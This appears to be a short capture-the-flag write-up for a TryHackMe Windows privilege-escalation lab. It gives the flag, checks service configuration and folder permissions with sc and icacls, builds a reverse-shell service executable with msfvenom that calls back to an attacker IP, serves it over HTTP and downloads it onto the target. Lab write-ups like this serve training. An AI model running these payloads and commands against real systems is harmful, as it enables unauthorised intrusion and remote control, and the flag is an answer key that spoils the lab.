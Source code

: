 Get the flag on svcusr1's desktop.
*THM{AT_YOUR_SERVICE}*


```
C:\Users\thm-unpriv>sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2

C:\Users\thm-unpriv>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files


┌──(kali㉿kali)-[~/Downloads/Windows_priv]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.81.220 LPORT=4446 -f exe-service -o rev-svc2.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc2.exe
                                                                          
┌──(kali㉿kali)-[~/Downloads/Windows_priv]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.90.7 - - [01/Sep/2022 13:24:54] "GET /rev-svc2.exe HTTP/1.1" 200 -


PS C:\Users\thm-unpriv> wget http://10.11.81.220:8000/rev-svc2.exe -O rev-svc2.exe

```